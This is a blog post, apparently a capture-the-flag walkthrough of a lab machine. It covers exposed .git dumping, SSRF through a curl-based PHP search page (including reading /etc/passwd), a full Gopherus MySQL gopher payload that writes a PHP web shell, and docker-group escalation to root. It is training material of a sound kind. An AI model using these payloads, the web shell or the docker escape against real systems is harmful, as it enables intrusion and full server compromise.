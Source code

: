 ```yaml
---
layout: post
author: kohaku
title:  "Exposed"
date:   2022-02-26 07:42:03 PM -03
category: Crowsec 
---
```


# Enumeration

{% highlight text  %}
Nmap scan report for 10.8.0.37
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:8a:fd:d4:fd:8f:6b:86:1c:90:28:d0:8a:3b:5a:52 (RSA)
|   256 07:74:e9:b4:ac:87:85:17:ea:26:16:0f:8f:81:8e:98 (ECDSA)
|_  256 b3:ee:e8:98:47:42:c7:12:f1:29:1f:01:a5:13:41:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Login Administration
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight  %}

## Port 80

The main page is a login page, i tried SQL injection, but nothing happen.

So, i start to fuzzing

### Fuzzing

{% highlight bash  %}
ffuf -u http://10.8.0.37/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt | tee fuzz.root
{% endhighlight  %}

{% highlight text  %}
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10]
.git/index              [Status: 200, Size: 630, Words: 4, Lines: 8]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
.git/config             [Status: 200, Size: 92, Words: 9, Lines: 6]
.git                    [Status: 301, Size: 305, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10]
.git/logs/              [Status: 200, Size: 1128, Words: 77, Lines: 18]
assets                  [Status: 301, Size: 307, Words: 20, Lines: 10]
auth                    [Status: 301, Size: 305, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2706, Words: 445, Lines: 138]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10]
{% endhighlight  %}

The website has a git exposed. I use gitdumper to extract the .git directory

### Git Exposed

{% highlight bash  %}
/opt/gitdumper.sh http://10.8.0.37/.git/ git
{% endhighlight  %}

Git log shows all the commits and i use git show with the hash of the commit to view the files 

{% highlight text  %}
-> git log
commit 83022d2e8bb833b8a1f2715e2134ec7399f1e181
-> git show 83022d2e8bb833b8a1f2715e2134ec7399f1e181
{% endhighlight  %}

This commit has a lot of files, but two files are interesting 

Login.php and search.php

{% highlight text  %}
Login.php has credentials to login
'user' => 'Crows3cAdminist4ti0n',
'password' => 'S3cr3tP@ss0rd_h4rd!*#9)';

Search.php has a command using curl and system
<?php
    $cmd = "curl ".escapeshellarg($_POST['search'])." |cat";
    system($cmd);
    die();
?> 
{% endhighlight  %}

### Search page

The page has a search page, like i saw on git logs

I use burp to intercept the request and start to test 

{% highlight text  %}
search=file:///etc/passwd -> Return the /etc/passwd file 
{% endhighlight  %}

I start to get a little confused about this script with curl, take me a while to use gopher and start to scan the ports

[What is Gopher? - Definition from Techopedia](https://www.techopedia.com/definition/5360/gopher)

I created a script to do a SSRF using gopher and scan the ports

{% highlight bash  %}
for port in {22,21,80,8080,3306}; do echo $port; curl -X POST http://10.8.0.37/search.php -d "search=gopher://localhost:$port/_TEST" -b "PHPSESSID=<Use the php cookie>"; done
{% endhighlight  %}

Looking at the response, i saw the mysql response the request. This host has a MySQL on the localhost

### Gopherus

https://github.com/tarunkant/Gopherus

I use gopherus to create a mysql payload

Note: Remember to double url encode the payload. Because the php do a urldecode and this can cause issues to the payload

{% highlight text  %}
gopherus --exploit mysql
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%56%00%00%00%03%73%65%6c%65%63%74%20%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%27%63%6d%64%27%5d%29%20%3f%3e%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%73%73%65%74%73%2f%72%65%76%65%72%73%65%2e%70%68%70%22%3b%01%00%00%00%01
{% endhighlight  %}

{% highlight bash  %}
payload -> select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/assets/cmd.php" #www-data only has access to assets
{% endhighlight  %}

Go to the /assets/<name>.php to access the RCE and create a reverse shell

## Root Flag

www-data is in docker group

`uid=33(www-data) gid=33(www-data) groups=33(www-data),117(docker)`

Using docker images, I saw the docker has no images and i search how to load a local image

- Step 1: Go to my machine and pull alpine image `docker pull alpine`
- Step 2: Export docker image: docker save -o <image.tar> <image> | docker save -o `alpine.tar` `alpine`
- Step 3: Transfer this .tar file to the victim machine
- Step 4: Load the docker image: docker load -i <image.tar> | docker load -i `alpine.tar`
- Step 5: Create a docker container using this image: docker run -it -v /root:/root alpine sh
